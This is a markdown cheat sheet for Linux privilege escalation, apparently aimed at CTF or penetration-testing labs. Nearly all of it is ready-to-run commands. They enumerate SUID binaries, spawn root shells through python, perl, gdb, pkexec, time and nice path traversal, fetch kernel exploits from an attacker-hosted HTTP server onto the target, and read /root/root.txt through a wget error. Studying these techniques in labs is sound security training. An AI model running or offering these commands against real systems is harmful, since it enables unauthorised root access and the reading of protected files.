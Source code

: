 - ## Privilege escalation <a name="privilegeescalation"></a>
[easy way to get root/root.txt](#root.txt)
- `cat /etc/issue`
```
find / -o -group `id -g` -perm \ 
 -g=w -perm -u=s -o -perm -o=w\
 -perm -u=s -o -perm -o=w \
 -perm -g=s -ls
```
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```python -c 'import pty; pty.spawn("/bin/bash")'```
- `echo os.system('/bin/bash')`
```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
- `os.execute('/bin/sh')`
- `exec "/bin/sh"`
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

# easy way to get root/root.txt <a name="root.txt"></a>
1️⃣ Read the Root Flag Using --input-file:

Use a root-only file (/root/root.txt) as an input to wget.
It will try to parse it as a URL, fail, and leak the content (flag) in the error.

sudo wget --input-file=/root/root.txt

